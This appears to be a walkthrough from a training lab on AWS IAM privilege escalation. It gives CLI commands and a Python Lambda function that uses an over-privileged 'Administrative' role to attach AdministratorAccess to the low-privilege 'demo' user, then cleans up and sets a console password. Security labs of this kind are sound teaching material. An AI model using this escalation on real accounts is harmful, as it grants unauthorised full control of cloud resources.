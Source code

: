 # Solutions / Walk through

Lets start off by viewing what permissions are attached to our user.

Run the following commands while authenticated as demo.

```sh
aws iam list-attached-user-policies --user-name demo

aws iam list-user-policies --user-name demo
```

The first command lists existing policies managed by aws and your account. While the seconds lists inline policies that only exist for the object they are attached too.

It looks like we have full lambda permissions: `arn:aws:iam::aws:policy/AWSLambda_FullAccess`

Lets see what roles exist that we can use on our lambda.

```sh
aws iam list-roles
```

It seems that there is a role that we can use: `Administrative`

```sh
aws iam get-role --role-name Administrative

aws iam list-attached-role-policies --role-name Administrative
```

The roles has administrator permissions and can be used on lambda functions, lets pivot from this.

```txt
"AssumeRolePolicyDocument": {
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Service": "lambda.amazonaws.com"
            },
            "Action": "sts:AssumeRole"
        }
    ]
},
```

Lets create a lambda a lambda function and use the role that have admin.

Put the following code into a file (*main.py*).

```py
import boto3

def lambda_handler(event, lambda_context):
    iam = boto3.resource('iam')
    user = iam.User('demo')
    response = user.attach_policy( PolicyArn = 'arn:aws:iam::aws:policy/AdministratorAccess' )
    print(response)
```

Replace ***0123456789*** with your account id from the terraform output.

```sh
vim main.py

zip -u code.zip main.py

aws lambda create-function --function-name demo --runtime python3.9 --role arn:aws:iam::0123456789:role/Administrative --zip-file fileb://code.zip --handler main.lambda_handler
```

Lets now invoke the function to update our permissions.

```sh
aws lambda invoke --function-name demo file.out
```

We can now attach admin permissions to the demo user.

```sh
aws iam list-attached-user-policies --user-name demo
```

The demo user now has administrator permissions in this aws account. ◻

## Cleanup

Lets remove what we created and then let terraform do the rest.

```sh
aws lambda delete-function --function-name demo

aws iam detach-user-policy --user-name demo --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

rm main.py code.zip file.out
```

## AWS Console

All of the following can be done in the web console as well.

Run the following command.

```sh
aws iam create-login-profile --user-name demo --password 'My!User1Login8P@ssword'
```

Navigate to [console.aws.amazon.com](console.aws.amazon.com) choose IAM login, account id is in the terraform output [*account_id*], username is **demo** and password is **My!User1Login8P@ssword**
